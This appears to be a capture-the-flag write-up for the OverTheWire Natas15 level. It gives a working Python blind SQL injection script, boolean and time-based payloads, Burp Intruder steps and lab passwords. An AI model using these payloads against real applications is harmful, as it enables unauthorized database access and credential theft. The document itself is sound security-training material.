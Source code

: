 # 🔐 Natas Level: Natas14--->Natas15



### 📂 Execution Process 
👉
- use this python script
```
import requests
url = 'http://natas15.natas.labs.overthewire.org/index.php'
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
seen = ''   # start empty
max_len = 32

auth = ('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')

for length in range(1, max_len + 1):
    found = False
    for ch in charset:
        guess = seen + ch
        payload = f'natas16" AND BINARY LEFT(password,{length}) = "{guess}" -- '
        response = requests.post(url, data={'username': payload}, auth=auth, timeout=10)
        if "This user exists." in response.text:
            seen = guess
            print(length, seen)
            found = True
            break
    if not found:
        print("No matching char found at position", length)
        break

print("Password (found prefix):", seen)
```

- Run the python script in the terminal using the command
```
python3 script.py
```
<img width="1452" height="541" alt="Screenshot 2025-10-06 at 11 05 32 AM" src="https://github.com/user-attachments/assets/36d4b2e3-7e47-44d3-ab97-27a3af01ca5b" />

### 📄 Password found:
👉 
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

### NOTES
# Simple notes for Natas (plain, easy English)

1) One short sentence (what the script does)
The script guesses the password one character at a time by asking the website a yes/no question for each guess. If the site answers "yes" (shows the success message), we keep that character and move to the next.

2) Step-by-step (very simple)
- Make a list of possible characters: a to z, A to Z, 0 to 9.
- Start with an empty known prefix.
- For position 1 (the first character), try every character from the list:
  a, b, c, ..., Z, 0, 1, 2, ...
- For each try, send a special username that asks:
  "Does the password start with THIS prefix?"
- The server will return a page. If it shows the success message (for example: This user exists.), the guess is correct.
- When you find the correct character, add it to the prefix and do the same for the next position.
- Repeat until you find all 32 characters or you stop.

3) Why this works (very simple)
- The site checks a database row for the username.
- We put a secret condition in the username that asks about natas16's password.
- That condition becomes true only when our guess is right.
- The page shows a different message when the condition is true, so we learn the correct character.

4) Important checks if things fail
- Make sure HTTP Basic Auth is being sent. If auth is missing, the server will not behave the same.
- Make sure the POST parameter name is correct (usually "username"). If the form uses a different name, use that.
- Make sure you check for the exact success message text. It must match exactly.
- Try different SQL comment styles: use either two dashes with a space at the end (-- ) or the hash sign (#).
- If the site never shows a different message, use a time-based check (make the server sleep when the condition is true and measure response time).

5) Example plain payloads to paste (use the one that works for your site, try them in Repeater first)
- Basic boolean style (replace X with the character you test):
  natas15" AND EXISTS(SELECT * FROM users WHERE username='natas16' AND BINARY LEFT(password,1) = "X") -- 
- Alternate boolean style:
  natas15" AND (SELECT BINARY LEFT(password,1) FROM users WHERE username='natas16') = "X" -- 
- Time-based fallback (sleeps 3 seconds when true):
  natas15" AND IF((SELECT BINARY LEFT(password,1) FROM users WHERE username='natas16') = "X", SLEEP(3), 0) -- 

6) How to use Burp Intruder quickly (plain steps)
- Capture a normal POST request in Proxy.
- Send to Intruder.
- Clear auto-markers.
- Put one marker only on the single character inside the quotes where you want to try values. Example position body:
  natas15" AND EXISTS(SELECT * FROM users WHERE username='natas16' AND BINARY LEFT(password,1) = "§" ) -- 
- Choose attack type: Sniper.
- Payloads: paste one character per line (list below).
- Options: Grep - Match add the success text (This user exists.) so hits are highlighted.
- Start attack. Note the payload that shows the success text — that is the correct character.
- Update the prefix/length and repeat.

7) Newline-separated charset (paste this into Intruder payload set 1, one per line)
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
1
2
3
4
5
6
7
8
9
0

8) Small debugging tips (short)
- If nothing matches, print the response body to check exact text.
- Try different comment styles: --  or  #
- Try single quotes instead of double quotes if the app strips double quotes.
- Add a small wait between requests to avoid rate limiting.
- If page never changes, use time-based payloads and look for longer response times.

9) Safety reminder
Only try this on authorized training sites like OverTheWire. Do not test real websites without permission.

10) Final small script idea (concept only)
- Loop positions 1 to 32.
- For each position, try all charset characters.
- For each try, send a request with the payload that checks LEFT(password, position) = prefix+char.
- If response shows success, accept char and move on.
- If none match, try time-based or check your request format/auth.


